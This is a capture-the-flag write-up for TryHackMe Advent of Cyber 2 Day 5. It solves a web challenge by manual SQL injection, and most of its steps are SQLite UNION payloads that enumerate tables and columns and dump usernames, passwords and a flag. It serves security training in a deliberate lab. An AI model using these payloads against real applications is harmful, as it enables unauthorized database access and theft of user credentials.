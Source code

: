 ```yaml
---
layout: post
title:  "Advent of Cyber 2 - Day 5 (Manual Mode)"
date:   2020-12-06 00:12:21 -0400
category: [writeups]
challenge-source: [TryHackMe]
challenge-category: ['Web Exploitation']
tags: [TryHackMe]
author: shinris3n
---
```


<a href = "https://tryhackme.com/" target="_blank"><img src="/assets/writeups/TryHackMe/THMlogo.png" width="225"></a>

<h2>Someone stole Santa's gift list!</h2>
Sqlmap was a nice and straightforward way of solving this challenge, but I was curious how it could be solved manually.  I saw that others were also interested in the AoC2 Discord channel, so I decided to take a crack at it and share a possible solution.

- Just to take a look at what we have access to upfront, we can get all search button related output by trying a wildcard:

![37de0ab710e9d480cc41b2ed5193a753.png](/assets/writeups/TryHackMe/AoC2D5/d01b15ca70e045c397034252c2769587.png)

- As for an injection vector, one of the provided resources for this challenge includes a [list of generic payloads](https://github.com/payloadbox/sql-injection-payload-list){:target="_blank"} that we can try out. Here's one string that yields an error message:

![fba82e82ee07183820e349147aa9c123.png](/assets/writeups/TryHackMe/AoC2D5/06fa999848894cbd964eeb2da8ec5041.png)

- It looks like this will work, we just need to make a small adjustment because we have 2 output columns:

`Badboi' UNION SELECT 1, 2--`

![031ad161871e6b41493e28d231633b90.png](/assets/writeups/TryHackMe/AoC2D5/29f06dd5da49482e9f67fd8114809547.png)

- Now we need to leverage this vulnerability to find out what tables are in the database.  We had a hint in the challenge text:

`Santa's TODO: Look at alternative database systems that are better than sqlite.` 

- Based on this, we can assume SQLite is the database that is running.  The search for some payloads that we can adapt is made easier thanks to [another resource shared in the challenge description](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md){:target="_blank"}. Re-working the syntax of the *"Integer/String based - Extract table name"* payload just a bit:

`Badboi' UNION SELECT 1, tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'--`

![3a432b4959a9aac3e635618b51163f41.png](/assets/writeups/TryHackMe/AoC2D5/dd2ff72ac7644a869b52e2842fd71317.png)

- And then doing the same with a payload for column discovery:

`BadBoi' UNION SELECT 1, sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='users'--`

![1c5324b827db2a2ea0f7ed1018c3526f.png](/assets/writeups/TryHackMe/AoC2D5/46fd0eb327d442d6a303186db5e233ab.png)

- After doing this for each table, we can output the contents of the details we want to see:

`BadBoi' UNION SELECT 1, username FROM users--`

![0bdc0e71277868101f7c77e063bf562e.png](/assets/writeups/TryHackMe/AoC2D5/080978b7226f40b6964ca21d86c4260d.png)

`BadBoi' UNION SELECT 1, password FROM users--`

![2a4d9996142daa35fd8ac35f9258056c.png](/assets/writeups/TryHackMe/AoC2D5/ba3b17ac13b546db8a400c979b7bd644.png)

- In a more targeted fashion that might have been useful in other situations:  

`BadBoi' UNION ALL SELECT NULL, password FROM users WHERE username LIKE 'Admin' --`

![d9f814e92318bf197fa8e1369ee879d1.png](/assets/writeups/TryHackMe/AoC2D5/49a29d9f490f42e6bdad559338426d66.png)

- or

`BadBoi' UNION SELECT 1, kid FROM sequels WHERE title LIKE '%Try%' --`

![2538f2ad6752664f59a38c8bf769565b.png](/assets/writeups/TryHackMe/AoC2D5/6319907a5e6346239668f91a4c1c26e3.png)

- and in the case of the challenge we also specifically want:

`BadBoi' UNION SELECT 1, flag FROM hidden_table --`

![a7b2d6fdbc6a1a55e416899387936018.png](/assets/writeups/TryHackMe/AoC2D5/b9d2ecbcf5b643a3ac05bfc94c3a85dc.png)

It was worth taking the extra time to solve the challenge this way, and I definitely appreciate sqlmap for all it automates and how it formats things a lot more now.